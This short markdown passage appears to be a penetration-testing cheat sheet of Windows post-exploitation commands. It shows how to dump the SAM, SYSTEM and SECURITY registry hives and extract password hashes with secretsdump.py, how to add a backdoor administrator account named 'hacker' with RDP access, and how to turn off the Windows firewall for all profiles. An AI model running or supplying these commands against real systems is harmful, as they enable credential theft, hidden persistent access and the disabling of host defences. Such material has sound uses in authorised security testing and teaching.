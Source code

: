 ### Dump hashes
````
reg save hklm\sam .\sam
reg save hklm\system .\system
reg save hklm\security .\security

secretsdump.py -sam sam -system system -security security LOCAL > hashes.txt
````
### Add RDP user
````
net user hacker hacker123 /add
net localgroup Administrators hacker /add
NET LOCALGROUP "Remote Desktop Users" hacker /ADD
````
### Turn off firewall 
````
NetSh Advfirewall set allprofiles state off
````
